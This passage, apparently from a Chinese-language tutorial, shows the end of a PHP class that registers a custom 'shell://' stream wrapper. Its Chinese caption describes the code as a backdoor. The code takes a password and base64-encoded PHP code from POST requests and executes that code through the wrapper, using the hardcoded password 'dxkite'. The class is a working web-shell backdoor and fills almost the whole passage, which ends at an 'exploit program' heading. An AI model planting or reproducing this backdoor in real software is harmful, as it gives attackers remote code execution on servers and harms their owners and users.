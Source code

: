 ```
                    return true;
                } else {
                    return false;
                }
                break;
            case SEEK_END:
                if (strlen($this->code) + $offset >= 0) {
                    $this->position = strlen($this->code) + $offset;
                    return true;
                } else {
                    return false;
                }
                break;

            default:
                return false;
        }
    }
    
    // include
    public function stream_stat()
    {
        return stat(__FILE__);
    }

    // file exists
    public function url_stat(string $path,int $stat)
    {
        return stat(__FILE__);
    }

    public static function shell(){
        stream_wrapper_register('shell', ShellStream::class);
        if (isset($_POST['password']) && $_POST['code']) {
            if ($_POST['password']=='dxkite') {
                $code = $_POST['code'];
                include 'shell://'.$code;
            } else {
                include 'shell://PD9waHAgZWNobyAiaGVsbG8gaGFjayI7';
            }
        }
    }
}

ShellStream::shell();
```

上述我实现了一个使用 `$_POST` 作为输入，接收密码和php代码的base64并执行代码的后门

### 利用程序
